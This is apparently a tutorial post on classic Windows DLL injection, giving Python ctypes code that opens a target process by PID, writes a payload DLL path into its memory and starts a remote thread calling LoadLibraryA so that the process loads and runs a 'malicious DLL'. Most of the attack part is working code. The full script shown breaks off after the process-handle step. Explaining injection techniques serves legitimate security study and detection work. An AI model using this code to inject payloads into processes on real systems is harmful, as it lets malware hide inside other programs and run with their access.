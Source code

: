 ## DLL Injection
DLL injection is a classic method used on windows, it basically forces a process to load a malicious DLL, once loaded DLLMain is executed automatically by the OS which executes the payload. So in order to perform DLL injection we just need to get the target process to call the LoadLibrary function.

The first thing we need is a handle to the process we want to inject into, we also need to specify the access required in order to allocate and write memory. 

{% highlight python %}
hprocess = windll.kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, PID)
{% endhighlight %}

Next we need to allocate memory and write our DLL path to the target process.

<figure class="lineno-container">
{% highlight python linenos=table %}
baseaddr = windll.kernel32.VirtualAllocEx(hprocess, None, len(DLLPATH), MEM_COMMIT_RESERVE, PAGE_READWRITE)
windll.kernel32.WriteProcessMemory(hprocess, baseaddr, DLLPATH, len(DLLPATH), byref(BYTES_WRITTEN))
{% endhighlight %}
</figure>

Now we just need to get the process to call loadlibrary. To do this we can use the CreateRemoteThread function. As the name implies it creates a remote thread in a target process. The main two arguments for it are the start address of the code, and a pointer to parameters to be passed to the new thread. We will use it to call LoadLibrary and pass the DLL name as a parameter. This is what forces the remote process to load a malicious DLL.

However we fist need to resolve the address of LoadLibrary so we can pass it to CreateRemoteThread. To do this we need to call GetModuleHandle to get a handle to the Kernel32.dll which exports the LoadLibrary function. Once we have a handle to it we can resolve the functions address by using GetProcAddress. Now that we know the address of LoadLibrary we can pass it as the startaddress to CreateRemoteThread with a pointer to the malicious DLL path name in memory as the parameter. 

<figure class="lineno-container">
{% highlight python linenos=table %}
hmodule = windll.kernel32.GetModuleHandleA("kernel32.dll")
loadlibraryaddr = windll.kernel32.GetProcAddress(hmodule, "LoadLibraryA")
windll.kernel32.CreateRemoteThread(hprocess, None, 0, loadlibraryaddr, baseaddr, 0, byref(THREAD_ID))
{% endhighlight %}
</figure>

The following is the full code to perform DLL injection using loadlibrary:

<figure class="lineno-container">
{% highlight python linenos=table %}
from ctypes import *
import sys

PROCESS_ALL_ACCESS = 0x001F0FFF
MEM_COMMIT_RESERVE = ( 0x1000 | 0x2000 )
PAGE_READWRITE     = 0x04
BYTES_WRITTEN      = c_int(0)
THREAD_ID          = c_ulong(0)

DLLPATH = 'C:\\Users\\IEUser\\Desktop\\process-injection\\payloads\\payload.dll'

PID = int(input("Enter PID to inject into: "))

# Get handle to process
hprocess = windll.kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, PID)
if not hprocess:
    print(WinError())
    sys.exit(0)
